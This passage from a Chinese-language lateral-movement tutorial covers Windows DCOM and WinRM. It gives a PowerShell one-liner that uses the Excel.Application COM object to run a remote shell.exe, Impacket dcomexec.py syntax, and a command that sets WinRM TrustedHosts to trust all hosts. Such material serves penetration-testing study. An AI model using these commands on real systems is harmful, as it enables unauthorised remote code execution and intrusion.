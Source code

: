 使用条件：适用于**Windows 10 和 Windows Server 2012 R2**等版本的系统。

```bash
# 通过 PowerShell 与 DCOM 进行远程交互，创建 Excel.Application 对象的实例：
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131")) 

# 然后执行如下命令，我们就可以调用该对象的"shellExecute"方法在远程主机上启动进程：$com.Document.Application.shellExecute("C:\shell.exe") 

# 完整的命令：
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131")).Document.Application.shellExecute("C:\shell.exe")
```

### [Impacket 里的 dcomexec.py 脚本](#toc_impacketdcomexecpy)

Impacket 里面提供的 dcomexec.py 脚本可以提供一个类似于 wmiexec.py 脚本的半交互式 shell，但使用的是 DCOM，目前支持 MMC20.Application，ShellWindows 和 ShellBrowserWindow 对象。

命令格式如下：

```bash
./dcomexec.py domain/username:password@ip 
./dcomexec.py domain/username:password@ip <command>
```

# [WinRM 的利用](#toc_winrm)

WinRM 是通过执行 WS-Management 协议（用于远程软件和硬件管理的 Web 服务协议）来实现远程管理的，允许处于一个共同网络内的 Windows 计算机彼此之间互相访问和交换信息，对应的端口是 5985。在一台计算机启用 WinRM 服务后，防火墙会自动放行其相关通信端口，在另一台计算机便能通过 WinRM 对其进行远程管理了。

**只有在 Windows Server 2008 以上版本的服务器中，WinRm 服务才会自动启动。**

**在利用 WinRM 进行横向移动时，需要拥有远程主机的****管理员凭据信息****。**

## [通过 WinRM 执行远程命令](#toc_winrm_1)

Windows 远程管理提供了两个工具：  
① Winrs，允许远程执行命令的命令行工具，利用了 WS-Manage 协议  
② Winrm（Winrm.cmd)，内置系统管理命令行工具，允许管理员配置本机的 WinRM 服务。

在默认情况下，无法通过 WinRM 连接到目标系统。可能出现错误：Winrs error：WinRM 客户端无法处理该请求。可以将默认身份验证与 IP 地址结合使用：  
① 传输为 HTTPS 或目标位于 TrustedHosts 列表中，并且提供显式凭据  
② 使用 Winrm.cmd 配置 TrustedHosts。

执行以下命令，将目标地址添加到 TrustedHosts 中：

```bash
winrm set winrm/config/client @{TrustedHosts="192.168.1.1"} 

set-Item WSMan:localhost\client\trustedhosts -value *    
# 通过 powershell，信任所有主机
```

## [Winrs](#toc_winrs)
